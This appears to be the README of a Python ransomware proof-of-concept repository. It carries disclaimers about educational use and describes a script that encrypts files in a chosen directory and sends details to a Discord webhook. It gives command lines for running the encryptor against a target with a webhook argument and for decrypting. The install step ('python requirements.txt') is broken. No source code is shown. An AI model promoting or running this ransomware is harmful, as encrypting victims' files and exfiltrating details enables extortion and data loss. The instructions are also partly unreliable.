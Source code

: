 # Python Ransomware POC
## Version: v1.0.0

### Disclaimer ⚠️

**I am NOT responsible** for any misuse of this code. This project should not be used for any illegal or unethical activities. The misuse of this code may violate the law and could result in severe legal consequences, including imprisonment and fines. This project is intended **solely for educational purposes**.

## Important Notice 🚨

- This code should only be used in a **controlled environment** such as a virtual machine or a sandbox.
- Do NOT run this script on any system without explicit permission.
- By using this code, you agree to use it **ethically and responsibly**.


## How It Works

The script works by:
1. Encrypting files in a specified directory.
2. Send the details over to discord via Webhook

**Again, this code is for demonstration only. Do NOT use it maliciously.**

## Installation

Ensure you have Python installed. You can run the script with the following command:

```bash
python requirements.txt
```

```bash
python main.py -w <your_webhook> [this will encrypt files on the target]
```

```bash
# decryption
python main.py -d
```
